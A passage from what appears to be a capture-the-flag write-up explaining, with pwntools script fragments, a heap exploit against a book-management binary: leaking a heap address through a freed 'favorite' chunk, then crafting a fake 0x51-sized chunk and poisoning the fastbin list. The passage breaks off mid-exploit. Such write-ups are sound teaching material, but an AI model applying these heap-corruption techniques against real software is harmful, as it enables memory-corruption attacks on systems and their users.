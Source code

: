 ``` python
    p.sendline('e')
    p.sendline(title)
    p.sendline(str(rating))
    p.sendline(description)

def main():
    add_book('0', '0', 10)
    add_book('1', '1', 10)

    favorite_book(0)
    delete_book(2)
    delete_book(1)

    p.recvuntil('Your favorite: ')
    p.recvuntil('Your favorite: ')
    p.recvuntil('Your favorite: ')
    heap_leak = u64(p.recvline().strip().ljust(8, '\x00'))
    log.info('heap_leak: %s' % hex(heap_leak))
```

The above code is a [pwntools](https://github.com/Gallopsled/pwntools) script with a few helper functions for interacting with the binary. Running the script will leak a heap address using the method described above.

## Creating a fake chunk

Now let's create a fake chunk and get the `book_array` allocated on our fake chunk. We'll start out by making our `book_array` be 56 bytes. A book array of 64 bytes will be put in the same fastbin as our `Book` structs when freed (chunks of size 80/0x50), and we don't want to pollute that fastbin.

``` python
# Allocate 7 books, setting the size of the books_array to 56
for i in range(7):
    add_book(str(i), str(i), 10)

delete_book(1)
```

The very first book we created in that loop will be allocated in the memory where the favorite chunk previously resided. We delete that book so that we still have control over the fastbin list, just like we did for the leak.

Before we add a fake chunk to the list, let's make a valid one. We'll put it inside of the second book.
```python
# Create fake chunk by setting correct metadata size
edit_title(2, p64(0x51), 'AAAAAAAA', 10)
```

The important part here is that we put a 0x51 in memory. As long as that lines up with the size of the heap chunk, glibc won't complain about it being the wrong size.

Now we make our fastbin list point this this fake chunk:
```python
# Add a fake chunk to the fastbin list
edit_title(0, p64(heap_leak + 0x58), 'BBBBBBBB', 10)
```
